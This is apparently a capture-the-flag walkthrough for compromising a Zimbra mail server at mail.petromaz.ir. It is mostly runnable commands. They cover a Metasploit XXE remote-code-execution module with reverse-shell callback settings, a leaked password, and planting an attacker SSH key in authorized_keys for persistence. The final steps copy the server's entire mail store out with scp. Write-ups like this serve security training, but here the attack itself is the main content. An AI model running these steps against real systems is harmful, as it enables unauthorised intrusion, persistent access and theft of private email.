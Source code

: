 # Mail Server

1. Address: `mail.petromaz.ir`
2. Find vulnerability: `https://www.exploit-db.com/exploits/46693`
3. Run Metasploit `msfconsole -q`

```
use exploit/linux/http/zimbra_xxe_rce
set RHOST mail.petromaz.ir
set RPORT 443

set LHOST <your-ip>
set LPORT 4747

# -j will run it as a JOB
run
```

> Attention: **Password: Zimbra2024**

4. Check SSH Keys (Create One, if needed)

```
cd ~/.ssh
ls -la
cat id_rsa.pub

# Create If You Don't Have one
ssh-keygen -t rsa
```

5. Set public Key: `echo "<your-pub-key>" > ~/.ssh/authorized_keys`
6. Ssh into Server: `ssh -i "<private-key>" zimbra@mail.petromaz.ir`
7. Get Flag: MAZAPA_aee82fac0c8fb5818b26db37a577027c
8. Download Zimbra Data

```
scp -i "<private-key>" -r zimbra@mail.petromaz.ir:/opt/zimbra/store/0 ./08-store0
```

9. Check Emails and Decode Files: `https://www.freeformatter.com/base64-encoder.html`
10. Network Map: [🗂 Network Map](./09-258-3.xlsx)
